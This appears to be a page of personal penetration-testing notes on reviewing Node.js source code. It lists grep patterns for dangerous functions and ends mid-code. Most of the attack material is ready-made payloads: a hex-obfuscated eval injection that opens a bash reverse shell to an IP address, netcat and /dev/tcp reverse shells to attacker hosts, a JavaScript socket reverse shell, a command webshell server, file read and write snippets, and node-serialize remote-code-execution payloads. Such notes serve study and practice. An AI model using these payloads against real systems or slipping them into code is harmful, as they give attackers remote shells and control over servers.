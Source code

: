     Identified by: bin/www/ and routes/ directories, package.json (project dependencies)
        Start NodeJS server:  ex. cd /bassmaster; nodejs examples/batch.js
    View libraries/dependencies:  npm list
        ex. docker-compose -f ~/chips/docker-compose.yml run chips npm list -prod -depth 1
    File Interaction:  egrep -iR 'fs|readFile|fs\.read|writeFile|appendFile|unlink' .
    SQL:  egrep -iR '\.query' .
        Stacking: grep -iR 'multipleStatements' .
    Dynamic Code Execution:  egrep -R 'eval|setTimeout|setInterval|Function\(' .
        grep -rnw "eval(" . --color
        Injection example:  payload="""abc'+eval(Buffer.from('7265717569726528226368696C645F70726F6365737322292E65786563282762617368202D63202262617368202D69203E26202F6465762F7463702F3139322E3136382E3131392E3134382F3535353520303E2631222729','hex').toString('utf8')))]//;"""
            Same as:  eval(require("child_process").exec('bash -c "bash -i >& /dev/tcp/192.168.119.148/5555 0>&1"')) 
        Try injecting a sub-eval!
        Other Command Injection Payloads:  https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet
            process.cwd()
            Try sub-commands! (eval within eval)
            List directory contents:  res.end(require('fs').readdirSync('.').toString()) ; res.end(require('fs').readdirSync('..').toString())
                var fs=require("fs");fs.readdirSync("/app").toString('utf8')
            Read file:  res.end(require('fs').readFileSync(filename)) ; var fs=require("fs");fs.readFileSync("/app/configs/index.js").toString('utf8')
            Write to File:  require('fs').writeFileSync(filename,data,'base64');
                Execute Binary:  require('child_process').spawn(filename);
            RevShell:  require("child_process").exec('nc <IP Attacker> 4445 -e /bin/sh') -> require("child_process").exec('nc%20<IP Attacker>%204445%20-e%20%2Fbin%2Fsh')                   
                Or:  require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
            Start new Server w/ Webshell:  setTimeout(function() { require('http').createServer(function (req, res) { res.writeHead(200, {"Content-Type": "text/plain"});require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e,s,st) {res.end(s);}); }).listen(8002); }, 8000)
                Access:  http://127.0.0.1:8002/?cmd=ls ; uname -a ; whoami
            Javascript Reverse Shell:
                var net = require("net"), sh = require("child_process").exec("/bin/bash");var client = new net.Socket();client.connect(53, "attackerip",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
    OS Commands:  egrep -iR 'child_process|exec|execsync|spawn|spawnsync' .  
    LFI:  egrep -R 'require\(|include\(' .
    Deserialization:
        egrep -iR 'node-serialize|serialize-to-js|funcster|cryo' .
        egrep -iR 'unserialize|serial|parse' .
        Payload Generator (choose node-serialize/funcster/cryo library):  node deser-node.js --help
            ex. Node-Serialize:  node deser-node.js -s ns -v rce -c 'touch /tmp/HACKED' [-e charcode\b64] -t linux
        Node-Serialize Payload Examples:  
            {"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n }()"}
            {"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,59, .......))}()"}
        Manual Example (https://0xdf.gitlab.io/2018/08/25/htb-celestial.html):
            python2 nodejsshell.py 192.168.1.1 4444
            Payload Generator (deserialShell.js):
                var y = {